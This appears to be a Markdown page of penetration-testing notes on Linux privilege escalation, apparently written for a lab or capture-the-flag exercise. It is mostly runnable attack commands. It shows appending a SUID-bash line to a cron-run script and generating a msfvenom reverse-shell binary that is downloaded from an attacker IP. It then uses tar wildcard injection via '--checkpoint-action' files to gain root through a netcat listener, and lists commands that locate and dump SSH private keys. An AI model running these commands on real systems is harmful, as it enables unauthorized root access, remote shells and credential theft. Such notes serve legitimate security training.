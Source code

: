 - Privilege Escalation  - Cron (File Overwrite)

    - `cat /etc/crontab`
        ```
        # m h dom mon dow user  command
        17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
        25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
        47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
        52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
        #
        * * * * * root overwrite.sh
        * * * * * root /usr/local/bin/compress.sh
        ```
        - `cat /usr/local/bin/compress.sh`
        ```
        #!/bin/sh
        cd /home/user
        tar czf /tmp/backup.tar.gz *
        ```
        - `echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh` > `/tmp/bash -p`

- Privilege Escalation  - Cron (Wildcard)

    - `cat /etc/crontab` > `cat /usr/local/bin/compress.sh`
        ```
        #!/bin/sh
        cd /home/user
        tar czf /tmp/backup.tar.gz *
        ```
        - `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.17.107.227 LPORT=4444 -f elf -o reverseshell.elf` > `python -m http.server 80`
        - `wget http://10.17.107.227/reverseshell.elf -P /tmp/` > `mv /tmp/reverseshell.elf /home/user/`
        - `touch /home/user/--checkpoint=1`
        - `touch /home/user/--checkpoint-action=exec=reverseshell.elf`
        - Now we can listen on our machine, when cron job would run we get root
        - `nc -nlvp 4444`

###### SSH Keys or Password in config files

- Public and private keys are generally stored in one of the following locations:
    - `/root/.ssh/`
    - `/home/user_name/.ssh/` (users home directory)
    - `/etc/ssh/`
    - In the paths specified in the `/etc/ssh/ssh_config` or `/etc/ssh/sshd_config` config files

-  The following command can be used to identify any existing public or private keys and their permissions:
    - `ls -la /home /root /etc/ssh /home/*/.ssh/`
    - `find / -name authorized_keys 2> /dev/null`
    - `locate id_rsa` / `locate id_dsa` / `find / -name id_rsa 2> /dev/null` / `find / -name id_dsa 2> /dev/null`
    - `cat /home/*/.ssh/id_rsa` / `cat /home/*/.ssh/id_dsa`
    - `cat /etc/ssh/ssh_config` / `cat /etc/sshd/sshd_config`
    - `cat ~/.ssh/authorized_keys` / `cat ~/.ssh/identity.pub` / `cat ~/.ssh/identity` / `cat ~/.ssh/id_rsa.pub` / `cat ~/.ssh/id_rsa` / `cat ~/.ssh/id_dsa.pub` / `cat ~/.ssh/id_dsa`
